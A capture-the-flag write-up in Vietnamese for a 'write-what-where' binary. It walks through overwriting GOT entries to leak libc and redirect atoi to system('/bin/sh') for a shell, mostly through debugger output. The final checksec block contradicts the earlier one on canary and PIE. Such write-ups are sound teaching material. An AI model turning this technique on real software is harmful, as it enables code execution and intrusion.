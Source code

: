 # Phân tích file

```python
write-what-where: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ee124ada64e961774c24b669bbe4aab30ef7f0e6, for GNU/Linux 4.4.0, not stripped
```

```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Ta có thể overwrite got do Partial RELRO

# Reverse file

- Main:
    
    ```python
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      _DWORD *v3; // [rsp+0h] [rbp-30h]
      int buf; // [rsp+Ch] [rbp-24h] BYREF
      char nptr[24]; // [rsp+10h] [rbp-20h] BYREF
      unsigned __int64 v6; // [rsp+28h] [rbp-8h]
    
      v6 = __readfsqword(0x28u);
      init(argc, argv, envp);
      puts("write");
      puts("what?");
      read(0, &buf, 4uLL);
      puts("where?");
      read(0, nptr, 9uLL);
      v3 = (_DWORD *)atoi(nptr);
      *v3 = buf;
      exit(0);
    }
    ```
    
- Init:
    
    ```python
    int init()
    {
      setvbuf(stdin, 0LL, 2, 0LL);
      return setvbuf(_bss_start, 0LL, 2, 0LL);
    }
    ```
    
    - Bài này cho phép ta nhập 4 byte vào 1 địa chỉ bất kì.

# Exploit

- Mình sẽ write got_exit về puts("write"); để mình có thể write got_setvbuf thành plt_puts  và stdin thành got_puts sau khi ghi xong mình sẽ write got_exit về lại đầu main để nó chạy qua hàm init và leak libc cho mình.
- Do mỗi lần chỉ ghi được 4 byte nên mình có thể ghi 2 lần 1 lần 4 bytes đầu rồi lần 2 là 4 bytes sau.
- Sau khi leak được libc mình sẽ write lại stdin để không bị lỗi rồi sau đó tính system và write 4 bytes cuối của atoi thành 4 bytes cuối của system lúc này mình chỉ cần nhập input là "/bin/sh\x00" thì khi đến atoi nó sẽ là system("/bin/sh") và get shell.
    
- Write got_exit
    
    ```python
    [0x404038] exit@GLIBC_2.2.5 -> 0x4011ca (main+33) ◂— lea    rax, [rip + 0xe33]
    ```
    
- Write 4 bytes đầu setbuf
    
    ```python
    [0x404028] setvbuf@GLIBC_2.2.5 -> 0x7fff00401030
    ```
    
- Write 4 bytes sau setbuf
    
    ```python
    [0x404028] setvbuf@GLIBC_2.2.5 -> 0x401030 (puts@plt) ◂— jmp    qword ptr [rip + 0x2fe2]
    ```
    
- Write 4 bytes đầu stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x00007fff00404018
    ```
    
- Write 4 bytes sau stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x0000000000404018
    ```
    
- Write exit về lại main
    
    ```python
    [0x404038] exit@GLIBC_2.2.5 -> 0x4011a9 (main) ◂— push   rbp
    ```
    
- Leak libc
    
    ```python
    ► 0x401183 <init+29>    call   setvbuf@plt <setvbuf@plt>
            stream: 0x404018 (puts@got.plt) —▸ 0x7ffff7e4e5a0 (puts) ◂— endbr64
            buf: 0x0
            modes: 0x2
            n: 0x0
    
    pwndbg> got
    
    GOT protection: Partial RELRO | GOT functions: 5
    [0x404028] setvbuf@GLIBC_2.2.5 -> 0x401030 (puts@plt) ◂— jmp    qword ptr [rip + 0x2fe2]
    
    ```
    
    ```python
    [*] Puts: 0x7ffff7e4e5a0
    [*] libc_base: 0x7ffff7dc7000
    [*] system: 0x7ffff7e1c410
    ```
    
- Sau khi leak libc xong mình sẽ write lại giá trị cho stdin vì nếu bị thay đổi sẽ ảnh hưởng không cho ta lên shell được
- Write 4 bytes đầu stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x00000000f7fb2980
    ```
    
- Write 4 bytes sau stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x00007ffff7fb2980
    ```
    
- Write exit về start để chương trình setup lại mọi thứ để không bị lỗi.
    
    ```python
    [0x404038] exit@GLIBC_2.2.5 -> 0x401080 (_start) ◂— endbr64
    ```
    
- Write 4 bytes đầu của atoi thành 4 byte đầu của system
    
    ```python
    [0x404030] atoi@GLIBC_2.2.5 -> 0x7ffff7e1c410 (system) ◂— endbr64
    ```
    
- Nhập input "/bin/sh\x00" và lên shell
    
    ```python
    ► 0x40122a <main+129>    call   atoi@plt <atoi@plt>
            nptr: 0x7fffffffdd50 ◂— 0x68732f6e69622f /* '/bin/sh' */
    
    pwndbg> got
    [0x404030] atoi@GLIBC_2.2.5 -> 0x7ffff7e1c410 (system) ◂— endbr64
    ```
    
- Shell
    
    ```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    [*] Puts: 0x7fb7129f29d0
    [*] libc_base: 0x7fb712972000
    [*] system: 0x7fb7129c1a60
    [*] stdin: 0x7fb712b529a0
    [*] Switching to interactive mode
    $
    ```
